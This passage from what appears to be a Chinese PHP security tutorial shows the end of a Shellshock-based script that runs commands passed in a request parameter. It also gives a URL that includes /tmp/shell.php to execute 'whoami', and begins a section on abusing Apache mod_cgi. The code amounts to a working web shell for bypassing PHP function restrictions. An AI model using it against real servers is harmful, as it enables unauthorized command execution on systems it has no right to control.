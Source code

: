 ```php
   // PHP will let the user modify ANY environment variable! 
   //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   error_log('a',1);
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>

```

![image-20211126224542152](image/命令执行/image-20211126224542152.png)

然后包含该脚本并传参执行命令即可：

```php
http://localhost:18081/?ant=include("/tmp/shell.php");&cmd=whoami
```

![image-20211126224925085](image/命令执行/image-20211126224925085.png)





#### 五、利用 Apache Mod CGI

使用条件：

- Linux 操作系统
- Apache + PHP (apache 使用 apache_mod_php)
- Apache 开启了 `cgi`, `rewrite`
- Web 目录给了 `AllowOverride` 权限
- 当前目录可写
